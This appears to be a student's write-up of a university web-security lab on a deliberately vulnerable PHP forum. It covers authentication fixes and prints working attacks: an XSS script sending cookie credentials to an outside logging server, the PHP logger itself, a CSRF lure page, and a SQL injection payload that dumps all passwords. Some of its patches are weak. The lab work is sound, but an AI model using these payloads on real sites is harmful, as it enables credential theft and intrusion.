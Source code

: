 # Web Security

## Assignment Purpose

The purpose of this assignment was to gain experience analyzing a web
application for security vulnerabilities, and patching them. Our assignment
was to find authentication, cross-site scripting, cross-site request forgery,
and SQL injection vulnerabilities, and fix them. The original, vulnerable
version, as well as the fixed version, can be found in this repository.

## Authentication

### Description

The password management system for the hackme site is terrible. There are five
major issues with this site. First, it simply checks to see if there is a cookie
set called "hackme", and the value of that cookie is assumed to be the username.
No password check required, the site just assumes that you are authenticated as
that user. Second, if a user actually does register, all passwords are stored as
plaintext. This allows anyone with access to the database to see all passwords
of all users. Third, HTTPS is not used when logging in or registering for the
site. This allows anyone with a network-snooping tool (like Wireshark) to grab
this plaintext information out of the air. Fourth, no measures are in place to
prevent brute-forcing attacks. Passwords that are easy enough to guess will
inevitably be revealed to an attacker, as an automated "guess and check"
approach will get these passwords in no time. Lastly, strong passwords are not
enforced, meaning that an ignorant user can set a one-character password if he
or she chooses.

### Vulnerability 1

Since the only authentication system in place is checking the value of the
"hackme" cookie, any non-registered user can simply assume the role of a
registered user, and do anything that the registered user can do.

### Vulnerability 1 Patch

I used PHP's $\_SESSION global variable to handle information about the current
session, such as who is logged in. By using this instead of storing a cookie,
PHP does not store the authenticated user on the client side, but instead stores
a session ID to prevent users from easily bypassing the login mechanism. The
session ID is then connected to the authenticated user on the server side, so
that session functionality is still intact.

### Vulnerability 2

Registered users' passwords are also stored in the database as plaintext,
allowing anybody with access to the databases to view these passwords.

### Vulnerability 2 Patch

The password is hashed before being stored in the database, so that people with
access to the database cannot view plaintext passwords. When a user logs in, the
hash of the entered password is then compared with the hash stored in the
database, allowing password functionality to remain intact.

### Vulnerability 3

User credentials are sent "in the clear", allowing attackers to easily snatch
them out of the air.

### Vulnerability 3 Patch

Using HTTPS, so confidential information is encrypted.

### Vulnerability 4

There is no maximum amount of attempts of guessing a password, allowing an
attacker to brute-force and obtain weak passwords easily.

### Vulnerability 4 Patch

Users now only have three password attempts before they are locked out of their
account. After that, the site administrator must unlock their account.

### Vulnerability 5

A strong password scheme is not enforced, allowing ignorant users to set
one-character passwords for the sake of convenience, opening them up to attacks.

### Vulnerability 5 Patch

Passwords are now required to be more than 8 characters in length, and contain
numbers, so that the passwords are not dictionary words.

## Cross-Site Scripting

### Vulnerability

To execute this attack, I posted a thread (as shown in Example 2.1) with
embedded JavaScript code, which gets executed when the page showing the thread
loads. This JavaScript code parses the `document.cookie` JavaScript string,
and finds the username and password embedded inside it. It then sends the
username and password to an external server that accepts a username and
password as GET arguments, and logs the received credentials to a text file.
The source code that stores the usernames and passwords is shown in Example
2.2.

```html
<script>
    var unStartIndex = document.cookie.indexOf("hackme")+7;
    var unEndIndex = document.cookie.indexOf("; hackme_pass");
    var pwStartIndex = document.cookie.indexOf("hackme_pass")+12;
    var pwEndIndex = document.cookie.length;
    var un = document.cookie.substring(unStartIndex, unEndIndex);
    var pw = document.cookie.substring(pwStartIndex, pwEndIndex);
    var params = "?un=" + un + "&pw=" + pw;
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "http://cse.taylor.edu/~jluscomb/xss.php"+params, false);
    xhttp.send();
</script>
```
**Example 2.1**: The malicious message that leverages the XSS attack.

```php
<?php
    $file = fopen("/home/CS/users/jluscomb/.linux/tmp/passwords.txt", "a");
    fwrite($file, $_GET['un']."/".$_GET['pw']."\n");
```
**Example 2.2**: The source code that stores the usernames and passwords.

### Patch

To patch this vulnerability, all I had to do was simply call PHP's provided
`filter_var()` function with the title and message of the thread, and it did
all the work of taking the `<script>` tags out, eliminating the XSS
vulnerability.

## Cross-Site Request Forgery

### Vulnerability

To execute this attack, I created a malicious web page that encourages the user
to click a button to show a typo. Upon clicking this button, the user
unknowingly submits a form that posts a thread on the hackme site. A user might
be lured to visit the malicious website through a phishing email advertising,
in this particular case, funny typos. The user is tricked into visiting the
site and clicking the button, falling victim to a CSRF attack. The malicious
web page that implements the CSRF attack is shown in Example 3.1.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Typos</title>
</head>
<body>
    <h1>All the typos on the <em>interenet</em>!</h1>
    <form action="http://10.121.20.109/hackme/post.php" method="post">
        <input type="hidden" name="title" value="You won!" />
        <input type="hidden" name="message" value="You have been selected for a free flying dragon ride." />
        <input type="submit" name="post_submit" value="View a typo" />
    </form>
</body>
</html>
```
**Example 3.1**: The source code that implements the CSRF attack.

### Patch

To patch this vulnerability, I added some PHP code that checks the HTTP referer
before allowing the thread submission. That way, the page ignores any requests
with HTTP referers outside of the site.

## SQL Injection

### Vulnerability

To execute this attack, I examined the source code for a query that uses string
concatenation, and whose results are returned in the HTML. One such
vulnerability was in the query to display all threads on the site, under the
`show.php` page. The query beings with `SELECT * FROM threads WHERE id = `, and
fills in the ID with an unsanitized GET parameter. I used this parameter to
complete the query with something that would return the username and passwords
of all users, as shown in Example 4.1.

```
http://10.121.20.109/hackme/show.php?pid=' UNION SELECT null AS id, username, CONCAT(username, "'s
password") AS title, CONCAT('The password for ', username, ' is: ', pass) AS message,
UNIX_TIMESTAMP(NOW()) AS date FROM users WHERE username LIKE '%
```
**Example 4.1**: The HTTP request that leverages the SQL injection attack. Line
breaks are added for convenience.

### Patch

To patch this vulnerability, I replaced all of the unsafe SQL queries with
prepared statements. According to W3Schools, with prepared statements,
parameter values are transmitted after the SQL statement template, using a
different protocol. This eliminates the problem of SQL statement templates
being derived from external output, which allowed for SQL injection in the
first place. With this problem eliminated, the SQL injection vulnerability
is no longer a problem.

## Credit

- **Assignment Author**: Dr. Dannie Stanley, PhD